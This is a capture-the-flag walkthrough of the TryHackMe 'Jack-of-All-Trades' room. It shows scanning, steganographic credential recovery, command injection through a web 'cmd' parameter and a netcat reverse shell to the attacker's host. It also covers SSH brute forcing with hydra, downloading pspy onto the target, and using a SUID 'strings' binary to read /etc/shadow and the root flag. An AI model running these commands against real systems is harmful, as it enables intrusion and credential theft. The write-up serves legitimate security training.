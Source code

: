 # Jack-of-All-Trades

**Room Link:** [https://tryhackme.com/room/jackofalltrades](https://tryhackme.com/room/jackofalltrades)



### Initial Scan

For some reason they switched port 22 with http site and 80 with ssh

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (233).png" alt=""><figcaption></figcaption></figure>

### Scan all ports

No other ports found

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>



### TCP/22 - HTTP

```
gobuster dir -u http://$VICTIM:22 -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (236).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (234).png" alt=""><figcaption></figcaption></figure>

Had to all the override to see the site on port 22 in firefox



<figure><img src="../../.gitbook/assets/image (235).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (240).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (241).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (242).png" alt=""><figcaption></figcaption></figure>

There is a stegosaurus picture on the home page so it is hinting that there's something in one of the pictures, eventually we find jackinthebox username and password in one of the pictures.

**Kali**

```
steghide extract -sf stego.jpg 
Password: u?WtKSraq

steghide extract -sf header.jpg  
Password: u?WtKSraq
```

<figure><img src="../../.gitbook/assets/image (243).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (237).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (244).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (245).png" alt=""><figcaption></figcaption></figure>

If you run a command like this you can't see the results unless you view the source.

**Browser**

```
view-source:http://$VICTIM:22/nnxhweOV/index.php?cmd=whoami
```

<figure><img src="../../.gitbook/assets/image (246).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
nc -lvnp 1337
```

**Browser**

```
view-source:http://$VICTIM:22/nnxhweOV/index.php?cmd=nc%20-c%20sh%2010.10.154.80%201337
```

<figure><img src="../../.gitbook/assets/image (247).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



In the home directory there is a password list, it's small enough so I copied and pasted into a file on Kali.

<figure><img src="../../.gitbook/assets/image (248).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
hydra -s 80 -l jack -P passwords.txt $VICTIM -t4 ssh
```

<figure><img src="../../.gitbook/assets/image (249).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh jack@$VICTIM -p 80
Password: ITMJpGGIqg1jn?>@
```

<figure><img src="../../.gitbook/assets/image (250).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (251).png" alt=""><figcaption></figcaption></figure>



## PSPY

**Kali**

```
wget https://github.com/DominicBreuker/pspy/releases/download/v1.2.1/pspy32 
python2 -m SimpleHTTPServer 81
```

**Victim**

<pre><code><strong>cd /tmp
</strong><strong>wget http://$KALI:81/pspy32 
</strong>chmod +x pspy32 
./pspy32 
</code></pre>



Strings as the  SUID-bit set which means we can run it against files we normally wouldn't be able to read. I tried getting roots password but it was taking too long.

**Victim**

```
find / -perm -u=s -type f 2> /dev/null 
/usr/bin/strings /etc/shadow
/usr/bin/strings /etc/passwd
```

**Kali**

```
unshadow passwd shadow > passwords.txt 
john --wordlist=/usr/share/wordlists/rockyou.txt passwords.txt
```

I just ended up using strings to read the root.txt

**Kali**

```
/usr/bin/strings /root/root.txt
```

<figure><img src="../../.gitbook/assets/image (252).png" alt=""><figcaption></figcaption></figure>
